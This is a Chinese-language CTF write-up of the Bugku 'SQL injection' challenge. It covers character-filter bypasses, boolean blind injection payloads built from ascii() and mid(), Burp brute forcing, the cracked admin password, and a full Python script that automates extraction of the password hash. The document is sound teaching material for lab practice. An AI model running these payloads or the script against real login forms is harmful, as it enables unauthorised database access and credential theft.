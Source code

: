 ```yaml
---
author: "Yiming Shen"
date: 2021-10-24
lastmod: 2021-11-6
title: "Bugku-SQL注入-WriteUP"
tags: [
    "CTF",
    "WriteUP",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
typora-root-url: ..\..\static\
---
```




题目网址：[sql注入](https://ctf.bugku.com/challenges/detail/id/112.html?page=1)

![image-20211014221914790](/4.Bugku-SQL注入.assets/image-20211014221914790.png)

一个很正经的界面，有实战那味了。

![image-20211014222010532](/4.Bugku-SQL注入.assets/image-20211014222010532.png)

上来先尝试经典组合：

`admin~password`

很幸运，用户名猜中了。

利用单引号检测是否存在SQL注入

`admin' or 1 = 1`

![image-20211014222135986](/4.Bugku-SQL注入.assets/image-20211014222135986.png)

报非法字符，说明存在字符过滤，我们找一下未被过滤的可用字符：

```
'
or
<>(不等号)
#
()
```

空格可用括号代替，等号可用相反的不等号

先尝试是否存在布尔注入：

![image-20211014222551824](/4.Bugku-SQL注入.assets/image-20211014222551824.png)

成功，用户名存在注入~

之后就是利用有错误反馈的布尔盲注语句进行爆密码（因为已知用户名）

```mysql
select password from admin
```

因为屏蔽了逗号，所以`left、substr、if`函数基本无法使用，我们用`ascii`和`mid`函数构造payload

```mysql
1'or((ascii(mid((select(password)from(admin))from(1))))<>9)or(1)#
```

使用burp爆破，从1开始挨个尝试，结果是以md5的形式存储在库中的，手动爆破很困难

![image-20211014225952174](4.Bugku-SQL注入.assets/image-20211014225952174.png)

![image-20211014225933951](/4.Bugku-SQL注入.assets/image-20211014225933951.png)

我们尝试下集束炸弹，让两个参数都作为目标

第一组payload为0-9的两位数组合，第二组payload为a-z和0-9的ASCII码

![image-20211014230625824](/4.Bugku-SQL注入.assets/image-20211014230625824.png)

爆破成功了。。。

接下来就是把各组数据记下来，转换成字母和数字，得到了一串md5密码：

`4dcc88f8f1bc05e7c2ad1a60288481a2`

去md5破解站破解一下，成功解出密码：

`bugkuctf`

![image-20211014230833058](/4.Bugku-SQL注入.assets/image-20211014230833058.png)

结束了……

## 反思

自动化程度不够高，学的python要用上，不要有脚本小子思想。

贴一组大神的python自动脚本，以供学习

```python
#布尔盲注不仅仅是在密码正确和密码错误两种情况下，比如你输入账户，可能出现“账户不存在”和“存在”两种情况，这也是布尔。
import requests
import string,hashlib
url = 'http://114.67.246.176:19665/'
sss = string.digits + (string.ascii_lowercase)
a = ''
for i in range(1, 50):
    flag = 0
    for j in sss:
        payload = "admin'^((ascii(mid((select(password)from(admin))from(%s))))<>%s)^1#" % (i, ord(j))
        #屏蔽了","，改用mid()函数，from表示起始位置
        #ascii()当传入一个字符串时取出第一个字母的ascii()，相当于mid()的第二参数，for取出，也相当于limit
        #<>表示不等号
        #^表示异或
        payload2= "admin123'or((ascii(mid((select(password)from(admin))from(%s))))<>%s)#"%(i,ord(j))
        #由于没有屏蔽or，所以也可以用这个，可以形成一组布尔
        payload3= "admin123'or((ascii(mid((select(database()))from(%s))))<>%s)#"%(i,ord(j))
        
        data = {'username': payload, 'password': 'admin'}
        res = requests.post(url, data=data).text
        if 'username does not exist!' in res:
            a += j
            flag = 1
            print(a)
            break
    if flag == 0:
        break
 
print(a)
```



## 参考题解

[1] [Bugku_sqli write up](https://blog.csdn.net/bin789456/article/details/119851596)
